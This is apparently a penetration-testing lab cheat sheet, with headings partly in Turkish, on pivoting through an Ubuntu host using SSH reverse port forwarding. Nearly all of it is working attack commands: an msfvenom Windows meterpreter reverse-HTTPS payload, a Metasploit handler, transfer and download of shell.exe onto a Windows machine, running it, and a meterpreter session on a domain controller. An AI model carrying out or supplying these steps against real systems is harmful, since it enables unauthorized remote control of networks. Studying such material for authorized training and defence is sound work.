

# SSH Reverse Port Forwarding

## Scenario



1. Saldırı bilgisayarı (SSH istemcisi), Ubuntu sunucusu (SSH sunucusu) aracılığı ile bir <span style="color:red">yönlendirme</span> (-R) talep eder:
    * 172.16.5.129:8080
    * 0.0.0.0:8000
2. SSH sunucusu, 172.16.5.129:8080 adresi üzerinde dinlemeye başlar.
3. Saldırı bilgisayarı, Metasploit aracılığı ile bir dinleyici talep eder:
    * 0.0.0.0:8000
4. Metasploit, 0.0.0.0:8000 adresi üzerinde dinlemeye başlar.
5. SSH sunucusu, 172.16.5.129:8080 adresi için gönderilen paketleri Metasploit tarafına <span style="color:red">iletir</span>.

## Forwarding

```sh
my@attack:~$ ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.15.50
```

## Creating the Payload

```sh
my@attack:~$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 LPORT=8080 -f exe -o shell.exe
```

## Configuring the Handler

```sh
my@attack:~$ msfconsole -q
```

```sh
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 8000
msf6 exploit(multi/handler) > run
```

## Payload Transfer

### Uploading

```sh
my@attack:~$ scp shell.exe ubuntu@10.129.15.50:/tmp
```

### Web Server on Pivot Host

```sh
ubuntu@WEB01:~$ python3 -m http.server 8123 -d /tmp
```

### Downloading

```pwsh
PS C:\Users\victor> Invoke-WebRequest -Uri "http://172.16.5.129:8123/shell.exe" -OutFile "shell.exe"
```

### Executing

```pwsh
PS C:\Users\victor> .\shell.exe
```

## Meterpreter Session Established

```sh
meterpreter > sysinfo
```

```output title="Output" hl_lines="2"
Computer        : DC01
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : INLANEFREIGHT
Logged On Users : 13
Meterpreter     : x64/windows
```
